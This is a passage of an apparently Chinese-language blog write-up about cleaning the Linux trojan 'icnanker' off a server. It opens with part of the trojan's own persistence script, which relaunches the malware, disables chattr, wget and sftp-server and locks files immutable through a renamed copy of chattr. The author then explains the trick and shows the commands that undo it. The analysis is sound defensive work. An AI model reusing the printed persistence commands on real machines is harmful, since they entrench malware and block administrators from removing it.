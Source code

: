     fi
    pkill icnanker;pkill icnanker
    chmod 0755 /usr/bin/icnanker
    lockr +i /usr/bin/icnanker
    /usr/bin/icnanker
fi
if [ ! -f  "$Bak" ];then
    cp -f /usr/bin/icnanker /usr/bin/.filebak
    chmod 0755 /usr/bin/.filebak
    lockr +i /usr/bin/.filebak
fi
chmod 0 /usr/bin/wget
lockr +i /usr/bin/wget
chmod 0 /usr/bin/chattr
lockr +i /usr/bin/chattr
chmod 0 /usr/lib/sftp-server
lockr +i /usr/lib/sftp-server
lockr -i /etc/hosts.deny;cp /etc/hosts.bak /etc/hosts.deny;lockr +i /etc/hosts.deny
sleep 30
done
哼，╭(╯^╰)╮，居然敢这样玩我。这几行命令和脚本试图干扰我把病毒从机器上删除哎：

第一步， 将/usr/bin/chattr复制到/usr/bin/lockr

cp /usr/bin/chattr /usr/bin/lockr

第二步， 将chattr变为不可读不可写不可执行的权限

chmod 0 /usr/bin/chattr

第三步， 锁住chattr，让其变为不可修改

lockr +i /usr/bin/chattr

第四步， 锁住所有其他木马，让其不可删除，如icnanker等。

lockr +i /usr/bin/icnanker

第五步， 将木马程序加入系统开机自启脚本（ /etc/rc.local ）中，每次开机自动运行木马。

这样一来， 如果不懂这段逻辑的话， 要删除病毒如icnanker都会被莫名其妙被拒绝了：

# rm /usr/bin/icnanker
rm: cannot remove ‘icnanker’: Operation not permitted
幸好， 我这个人有非常可怕的耐心。马上去查了chattr是干什么的。原来，linux的文件还能设置一些附带的属性。比如有一个属性'i'，它的意思就是"immutable"，即限制文件不可更改（删除、修改文件内容、改变文件权限等）。那么通过lockr +i /usr/bin/icnanker，给icnanker附上了'i'属性之后，就让我没办法删除icnanker了！

“那把icnanker的'i'属性去除呗”， 这是一个很直接的想法。但是这货为了防止我这么做，还记得吗，它把 chattr 这个工具通过 chmod 0 /usr/bin/chattr命令将chattr的执行权限去除了。换言之，我没法运行chattr来去除icnanker的'i'属性！

那是不是就没办法删除这些木马了呢？

NO，NO，NO。将计就计就好了。

还记得吗， 上面那段脚本，把/usr/bin/chattr复制到了/usr/bin/lockr。那我直接使用lockr把chattr解锁不就行了？

# lockr -i /usr/bin/chattr
# chmod 755 /usr/bin/chattr
# chattr -i /usr/bin/icnanker
# rm /usr/bin/icnanker
(...)
呵呵，这样，就把攻击者设下的圈套一下就解开了。做到这里我觉得攻击者的智商其实值得商榷的。我在智商上，其实应该更高一筹。小小的自娱自乐了一把。。。
